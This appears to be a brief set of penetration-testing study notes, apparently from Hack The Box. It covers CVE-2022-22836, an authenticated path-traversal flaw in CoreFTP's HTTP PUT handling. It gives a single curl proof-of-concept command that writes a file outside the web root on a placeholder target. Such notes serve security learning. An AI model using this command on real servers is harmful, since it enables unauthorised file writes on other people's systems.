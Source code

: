 # CoreFTP before build 727

- [https://nvd.nist.gov/vuln/detail/CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836)
- Vulnerability is an FTP service that does not correctly process the HTTP PUT request and leads to an authenticated directory/path traversal

```python
z3tssu@htb[/htb]$ curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```
